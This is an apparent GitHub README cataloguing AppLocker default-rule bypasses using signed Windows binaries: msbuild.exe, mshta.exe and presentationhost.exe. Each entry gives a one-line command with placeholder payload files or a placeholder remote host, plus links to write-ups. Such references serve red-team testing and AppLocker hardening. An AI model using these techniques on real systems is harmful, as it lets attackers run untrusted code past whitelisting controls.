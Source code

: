 # Bypass DLL Default AppLocker Rules
The goal of this list is document a verified list of known bypasses using AppLocker Default Rules for DLL whitelisting.
Please contribute and do point out errors or resources I have forgotten.


## 1. Msbuild.exe

`msbuild.exe pshell.xml`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: Yes    

Notes:

Links:  
https://github.com/Cn33liz/MSBuildShell
https://github.com/Cn33liz/MS17-012
https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/
https://www.youtube.com/watch?v=aSDEAPXaz28
https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Trusted_Developer_Utilities.md
https://oddvar.moe/2017/12/13/harden-windows-with-applocker-based-on-case-study-part-1/


## 2. Mshta.exe

`mshta.exe C:\poc\evilfile.hta`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: Yes  

Notes:

Links:  
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
https://oddvar.moe/2017/12/21/harden-windows-with-applocker-based-on-case-study-part-2/

## 3. Presentationhost.exe

`presentationhost.exe file:///x.x.x.x/bypass.xbap`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: Yes  

Notes:
Must be run from the file system, the xbap can't request full permissions when loaded over HTTP/FTP

Links:  
https://medium.com/@jpg.inc.au/applocker-bypass-presentationhost-exe-8c87b2354cd4
